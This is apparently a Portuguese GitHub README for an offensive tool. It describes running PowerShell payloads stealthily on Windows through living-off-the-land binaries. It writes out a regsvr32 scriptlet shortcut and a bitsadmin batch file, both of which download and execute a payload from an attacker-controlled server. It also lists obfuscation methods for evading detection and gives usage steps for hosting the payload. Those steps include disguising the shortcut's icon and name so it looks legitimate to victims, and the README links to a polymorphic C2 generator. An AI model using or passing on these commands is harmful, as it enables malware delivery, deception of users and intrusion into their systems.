 # Técnica de Execução Stealth para Scripts PowerShell

Este repositório demonstra técnicas avançadas para executar scripts PowerShell de maneira furtiva, contornando controles de segurança comuns. A implementação utiliza binários legítimos do Windows, transferência de arquivos em segundo plano e ofuscação para evitar detecção.

## Visão Geral

Esta técnica pode ser implementada de várias formas, incluindo o uso do regsvr32.exe para scriptlets (.sct) ou utilizando BITS (Background Intelligent Transfer Service), um serviço legítimo do Windows usado para downloads em segundo plano.

## Gerar o C2 em PS1
https://github.com/ticofookfook/C2-polimorfico

## Componentes e Técnicas

### 1. Técnica baseada em regsvr32 (SCT)

O ponto de entrada é um atalho do Windows com as seguintes propriedades:
```powershell
Destino: %windir%\System32\regsvr32.exe
Argumentos: /s /u /i:http://[ip-servidor]/[nome-script].sct scrobj.dll
Ícone: %SystemRoot%\System32\devmgr.dll,0
Estilo da Janela: Minimizada
```

O arquivo SCT (Scriptlet) contém código JScript ofuscado com múltiplas técnicas de evasão.

### 2. Técnica baseada em BITS Admin (mais confiável)

Um método alternativo que oferece maior confiabilidade em ambientes protegidos:

```powershell
# Criar arquivo batch
@echo off
rem Executar silenciosamente
bitsadmin /transfer myDownloadJob /download /priority high http://[ip-servidor]/[nome-script].sct "%TEMP%\data.tmp" > nul
regsvr32 /s /u /i:"%TEMP%\data.tmp" scrobj.dll
exit
```

Atalho do Windows:
```
Destino: %ComSpec%
Argumentos: /c start /min [caminho-para-batch]
Ícone: %SystemRoot%\System32\mmcndmgr.dll,0
Estilo da Janela: Minimizada
```

### 3. Técnicas de Evasão

A implementação usa múltiplas camadas de evasão:

- **Inversão de Strings**: Strings como "powershell.exe" são armazenadas invertidas
- **Conversão de Código de Caracteres**: Strings críticas construídas a partir de códigos ASCII
- **Expansão de Variáveis de Ambiente**: Construção dinâmica de caminhos do sistema
- **Execução Oculta**: Previne janelas visíveis durante a execução
- **Uso de Serviços Legítimos**: BITS é um componente do Windows usado para Windows Update

### 4. Cadeia de Execução

A cadeia completa de execução usando BITS:
1. Usuário clica no atalho
2. CMD.exe é iniciado com janela minimizada
3. Batch é executado silenciosamente
4. BITS baixa o payload como uma transferência de segundo plano
5. regsvr32 carrega o payload baixado
6. Conteúdo é executado sem criar janelas visíveis

## Uso

1. Hospede o arquivo .sct em um servidor HTTP
2. Hospede seu payload PowerShell como "teste.ps1" no mesmo servidor
3. Crie o atalho usando o script gerador fornecido
4. O ícone e o nome do atalho podem ser personalizados para parecerem legítimos

## Detalhes Técnicos

### BITSAdmin

- Ferramenta nativa do Windows para gerenciar o serviço BITS
- Raramente bloqueada por soluções de segurança por ser essencial para o Windows Update
- Permite downloads em segundo plano com alta confiabilidade

### regsvr32

- `/s`: Execução silenciosa (sem diálogos)
- `/u`: Desregistra componente (usado como parte da técnica)
- `/i:<URL>`: Especifica o script a ser carregado
- `scrobj.dll`: O Script Component Runtime que processa o scriptlet

### Considerações de Segurança

Esta técnica é eficaz em contornar controles de segurança porque:

1. Utiliza binários confiáveis do Windows (técnica living-off-the-land)
2. BITS é um serviço essencial raramente bloqueado
3. Comandos fragmentados e ofuscados previnem detecção
4. A execução ocorre em segundo plano e sem janelas visíveis
5. Utiliza métodos de transferência legítimos usados pelo próprio Windows

